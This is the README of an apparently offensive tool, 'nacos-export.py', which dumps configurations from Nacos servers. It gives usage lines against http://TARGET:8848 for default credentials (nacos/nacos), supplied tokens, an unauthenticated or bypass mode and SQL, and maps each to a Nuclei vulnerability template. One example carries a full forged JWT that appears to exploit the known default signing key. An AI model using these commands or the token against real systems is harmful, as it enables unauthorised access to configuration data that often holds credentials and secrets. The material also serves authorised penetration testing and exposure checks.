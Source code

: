 # NACOS EXPORT

- ✅ 通过nacos账号密码导出配置
- ✅ 通过token导出配置
- ✅ 通过unauth/bypass导出配置
- ✅ 导出配置数量统计
- ✅ 通过sql导出配置

## Use

考虑到NACOS部署方式不同，在设置目标路径时，指向`/v1`的上一级目录.

> 若要将将结果保存至文件，请通过重定向输出方式

```text
$ python3 nacos-export.py

 ______________
< Nacos Export >         @Author: Arm!tage
 --------------          @Version: v1.1.1
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||

Usage:
    python3 nacos-export.py <URL> <USERNAME> <PASSWORD>
    python3 nacos-export.py <URL> <TOKEN>
    python3 nacos-export.py <URL> bypass|unauth
    python3 nacos-export.py <URL> sql

Example:
    python3 nacos-export.py http://TARGET:8848/nacos nacos nacos
    python3 nacos-export.py http://TARGET:8848/nacos eyJhbGciOiJIXXXXXXXXXXXX
    python3 nacos-export.py http://TARGET:8848/nacos unauth
    python3 nacos-export.py http://TARGET:8848/nacos sql
```

## Nuclei Template

- **nacos-default-login**
  - `python3 nacos-export.py http://TARGET:8848/nacos nacos nacos`
- **unauthenticated-nacos-access**
  - `python3 nacos-export.py http://TARGET:8848/nacos unauth`
  - `python3 nacos-export.py http://TARGET:8848/nacos bypass`
- **nacos-auth-bypass**
  - `python3 nacos-export.py http://TARGET:8848/nacos unauth`
  - `python3 nacos-export.py http://TARGET:8848/nacos bypass`
- **nacos-authentication-bypass:extracted-credentials**
  - `python3 nacos-export.py http://TARGET:8848/nacos eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6OTk5OTk5OTk5OTl9.-isk56R8NfioHVYmpj4oz92nUteNBCN3HRd0-Hfk76g`
